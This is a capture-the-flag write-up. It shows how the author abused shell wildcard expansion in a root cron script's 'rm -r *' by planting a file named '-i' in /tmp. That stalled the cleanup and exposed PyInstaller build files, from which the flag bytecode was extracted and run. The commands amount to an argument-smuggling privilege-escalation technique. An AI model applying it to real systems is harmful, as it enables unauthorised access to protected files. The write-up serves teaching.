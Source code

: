 # GutHib Actions

This was a very simple Misc challenge with an obvious intended solution, but I solved it using a (relatively more complex) unintended solution. I thought I'd share it here for people to enjoy :)

## Challenge Premise

The challenge revolves around the `root` user running a `build.sh` script every minute.&#x20;

The script runs a `build.py` file, which calls on [`pyinstaller`](https://pyinstaller.org/en/stable/index.html) to build an executable from the `/root/flag.py` file, and store it in the `/root` directory.

Finally, the `/tmp` directory is cleared with `rm -r *`, which deletes all build files generated by `pyinstaller`.

{% tabs %}
{% tab title="Dockerfile" %}
```docker
FROM ubuntu:22.04

RUN apt-get update &&  \
    apt-get install -y python3 python3-pip openssh-server cron && \
    apt-get clean && \
    rm -rf /var/lib/apt/lists/*

RUN pip install pyinstaller && \
    pip cache purge

RUN useradd -m -c 'Restricted guest account' guest && \
    echo 'guest:guest' | chpasswd

RUN echo "PasswordAuthentication yes" >> /etc/ssh/sshd_config

RUN (crontab -l ; echo "* * * * * /root/build.sh") | crontab


COPY ./flag.py /root/flag.py
COPY ./build.sh /root/build.sh
COPY ./build.py /root/build.py
COPY ./start.sh /root/start.sh

RUN chown -R guest /home/guest && \
    chmod -R 700 /root && \
    chmod -R 777 /home/guest
EXPOSE 1337
ENTRYPOINT /root/start.sh

```
{% endtab %}

{% tab title="build.sh" %}
```bash
#!/bin/bash
cd /tmp  # dump all the temp files Pyinstaller may generate in the temp dir
cp /root/build.py build.py
python3 build.py >/dev/null 2>&1  # build flag printing binary
rm -r *
```
{% endtab %}

{% tab title="build.py" %}
```python
import subprocess
subprocess.call(['pyinstaller',  '-F',  '--distpath', '/root', '/root/flag.py'])
```
{% endtab %}
{% endtabs %}

## Unintended Solution

It might not be immediately obvious, but there is actually a vulnerability in the `build.sh` file. The `rm -r *` uses [**wildcard expansion**](https://frippery.org/busybox/globbing.html), which is _wild_ly dangerous.

In Unix, wildcards are expanded by the shell and any matching filenames are passed as arguments to the program being run. This means that if there is a file by the name `-rf`, the `rm *` command would automatically be expanded to `rm -rf` - dangerous indeed!

In this case, we do _not_ want everything from the `/tmp` directory to be removed after the script is run, because the PyInstaller build files contain valuable information. We can place a file with the name `-i` in the `/tmp` directory to achieve this. According to the [man page](https://linuxcommand.org/lc3\_man\_pages/rm1.html):

```
-i     prompt before every removal
```

Therefore, by doing this:

```bash
$ echo "asdf" > "-i"
$ ls -la
total 12
-rw-rw-r-- 1 guest guest    5 Dec  5 18:00 -i
drwxrwxrwt 1 root  root  4096 Dec  5 18:00 .
drwxr-xr-x 1 root  root  4096 Dec  5 17:55 ..
```

we are effectively "hanging" the cronjob script at the `rm -r *` command, since the script has no way of answering the prompt that appears:

```
rm: descend into directory 'build'?
```

After the script runs, we have access to PyInstaller's build directory, where PyInstaller creates the files necessary for building the final executable generated in the `distpath`.

```bash
$ ls -la
total 24
-rw-rw-r-- 1 guest guest    5 Dec  5 18:04 -i
drwxrwxrwt 1 root  root  4096 Dec  5 18:07 .
drwxr-xr-x 1 root  root  4096 Dec  5 18:02 ..
drwxr-xr-x 3 root  root  4096 Dec  5 18:06 build
-rwx------ 1 root  root   101 Dec  5 18:07 build.py
-rw-r--r-- 1 root  root   814 Dec  5 18:06 flag.spec
```

Now that we have access to the `build` directory, let's take a look at what's inside.

```bash
$ ls -la build/flag
total 8468
drwxr-xr-x 3 root root    4096 Dec  5 18:06 .
drwxr-xr-x 3 root root    4096 Dec  5 18:06 ..
-rw-r--r-- 1 root root   10832 Dec  5 18:06 Analysis-00.toc
-rw-r--r-- 1 root root    4147 Dec  5 18:06 EXE-00.toc
-rw-r--r-- 1 root root    4052 Dec  5 18:06 PKG-00.toc
-rw-r--r-- 1 root root  859850 Dec  5 18:06 PYZ-00.pyz
-rw-r--r-- 1 root root    6937 Dec  5 18:06 PYZ-00.toc
-rw-r--r-- 1 root root 1066256 Dec  5 18:06 base_library.zip
-rw-r--r-- 1 root root 6457686 Dec  5 18:06 flag.pkg
drwxr-xr-x 2 root root    4096 Dec  5 18:06 localpycs
-rw-r--r-- 1 root root    1759 Dec  5 18:06 warn-flag.txt
-rw-r--r-- 1 root root  231842 Dec  5 18:06 xref-flag.html
```

As explained in the [documentation](https://pyinstaller.org/en/stable/advanced-topics.html?highlight=.pkg#using-pyi-archive-viewer), the `flag.pkg` is a ZlibArchive containing compressed `.pyc` files containing the bundled Python modules.

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

We can inspect its contents using `pyi-archive_viewer`, which is installed together with PyInstaller.

```python
$ pyi-archive_viewer build/flag/flag.pkg
 pos, length, uncompressed, iscompressed, type, name
[(0, 205, 271, 1, 'm', 'struct'),
 (205, 4225, 9058, 1, 'm', 'pyimod01_archive'),
 (4430, 7416, 17526, 1, 'm', 'pyimod02_importers'),
 (11846, 1772, 3639, 1, 'm', 'pyimod03_ctypes'),
 (13618, 594, 849, 1, 's', 'pyiboot01_bootstrap'),
 (14212, 450, 678, 1, 's', 'pyi_rth_inspect'),
 (14662, 105, 126, 1, 's', 'flag'),
 ...
```

We can then extract the `flag` file using the `X` command.

{% code overflow="wrap" %}
```
? X
extract name? flag
to filename? flag
?
```
{% endcode %}

Although we could quite easily see the flag in the hexdump of the extracted file at this point, I was still slightly confused by the file format, as the magic bytes were not recognised by Python bytecode disassemblers.

The extracted file was in fact the original Python bytecode, and _not_ a `.pyc` file as was suggested by the PyInstaller documentation. The key difference is that a `.pyc` file contains:

* A four-byte magic number,
* A four-byte modification timestamp, and
* A marshalled code object.

And the extracted file contains _only_ the marshalled code object (also see this [issue](https://github.com/pyinstaller/pyinstaller/issues/3435)). At this point we can just use Python's `marshall` module to run the code.

```python
>>> import marshal
>>> exec(marshal.load(open('flag', 'rb')))
STF22{5up3r_5U5_5y5t3m_m0du13!_a0d66b3e608fe2b38ddf77d679fbde6b74e231f54c469a081f04dc65004360f8}
```

## Intended Solution

The intended solution was just to override the `subprocess` module by writing to a `subprocess.py` file. I actually thought of this halfway through, but I was already too far in with the unintended solution not to see it through.

Anyway, this was a fun challenge! At least I learnt a thing or two about PyInstaller.
